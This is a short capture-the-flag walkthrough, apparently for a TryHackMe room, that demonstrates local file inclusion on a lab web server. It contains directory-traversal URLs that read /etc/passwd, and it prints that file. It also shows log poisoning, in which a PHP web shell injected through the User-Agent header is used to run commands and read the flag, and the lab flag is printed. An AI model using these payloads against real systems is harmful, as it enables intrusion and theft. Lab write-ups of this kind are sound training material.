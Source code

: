 # LFI Walkthrough 1 (Basics)

http://10.10.197.217/lfi/lfi.php?page=home.html

```
You included home.html
```

http://10.10.197.217/lfi/lfi.php?page=../../../../../../etc/passwd

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false messagebus:x:106:110::/var/run/dbus:/bin/false uuidd:x:107:111::/run/uuidd:/bin/false lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false whoopsie:x:109:117::/nonexistent:/bin/false avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false saned:x:119:127::/var/lib/saned:/bin/false usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash 
```

Code : local_file = $_REQUEST["page"];

# LFI using Directory Traversal

http://10.10.197.217/lfi2/lfi.php?page=../creditcard

```
1111-2222-3333-4444 
```

Code : local_file = "html/".$_REQUEST["page"];

# Reaching RCE using LFI and log Poisoning

http://10.10.197.217/lfi/lfi.php?page=../../../../../var/log/apache2/access.log

```
10.8.107.21 - - [21/Sep/2020:00:06:03 -0700] "GET /lfi2/lfi.php?page=../creditcard HTTP/1.1" 200 346 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0" 10.8.107.21 - - [21/Sep/2020:00:15:38 -0700] "GET /lfi/lfi.php HTTP/1.1" 200 264 "http://10.10.197.217/" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0"
```

And trying to access the `flag.txt`.

Start Burp and capture the request. `Change the User-Agent: <?php system($_GET['lfi']) ?>`.
Send it to repeater and add `&lfi= HTTP/1.1` in end of the link.

Now in lfi parameter try passing `uname -r` doesn't work since url not encoded.
Type `uname%20-r`

```
4.15.0-72-generic
```

# Flag

GET /lfi/lfi.php?page=../../../../../var/log/apache2/access.log&lfi=cat%20/home/lfi/flag.txt HTTP/1.1

```
THM{a352a5c2acfd22251c3a94105b718fea}
```